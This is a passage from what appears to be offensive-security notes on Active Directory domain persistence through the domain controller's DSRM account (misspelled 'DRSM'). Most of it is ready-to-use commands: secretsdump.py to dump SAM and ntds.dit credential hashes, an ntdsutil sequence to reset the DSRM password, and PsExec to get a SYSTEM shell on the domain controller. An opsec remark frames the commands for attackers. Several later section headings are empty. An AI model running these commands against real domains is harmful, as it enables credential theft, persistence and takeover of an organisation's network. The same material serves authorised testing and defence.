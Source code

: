 The following techniques can be used to retrieve or set the `DRSM` account
password:

```
# Remote extraction of the DRSM account (full dump of the local accounts stored in the SAM registry hive).
# For more information and techniques on how to retrieve the local Administrator NTLM hash from the SAM database, refer to the "[Windows] Post Exploitation" note.
secretsdump.py '<DOMAIN>/<USERNAME>[:<PASSWORD>]@<DC_HOSTNAME | DC_IP>'

# While not recommended from an opsec standpoint, the DRSM account password can also be reset (with out requiring knowledge of the current password).
ntdsutil
> set dsrm password
# "null" if the commands are executed locally on the Domain Controller of which the DRSM account password should be updated, its hostname otherwise.
> reset password on server <null | DC_HOSTNAME>
> <NEW_DRSM_PASSWORD>
> <NEW_DRSM_PASSWORD>
```

If the `DsrmAdminLogonBehavior` key of the targeted Domain Controller is set to
`0x2`, remote code execution or replication operations can be conducted using
the `DRSM` account:

```
# Refer to the "[ActiveDirectory] ntds.dit dumping" for more techniques to extract the secrets from the ntds.dit database.
secretsdump.py '<DC_HOSTNAME>/<Administrator | DRSM_ACCOUNT>:<DSRM_PASSWORD>@<DC_HOSTNAME | DC_IP>'
secretsdump.py -hashes <:DSRM_NTLM_HASH> '<DC_HOSTNAME>/<Administrator | DRSM_ACCOUNT>@<DC_HOSTNAME | DC_IP>'

# The DRSM account can be used through any authentication types (network logon, remote interactive logon, etc.).
# Refer to the "[Windows] Lateral movements" note for more techniques to remotely execute code on the targeted Domain Controller (through PsExec-like tools, WMI, WinRM, RDP, etc.).
PsExec.exe -accepteula \\<DC_HOSTNAME | DC_IP> -u "<DC_HOSTNAME>/<Administrator | DRSM_ACCOUNT>" -p "<DRSM_PASSWORD>" -s <cmd.exe | %ComSpec% | powershell.exe>
```

### Kerberos delegations

### Certificates (`User-Principal-Name` or `Alt-Security-Identities`)

### Skeleton key

### Domain Controller local persistence

--------------------------------------------------------------------------------

### References
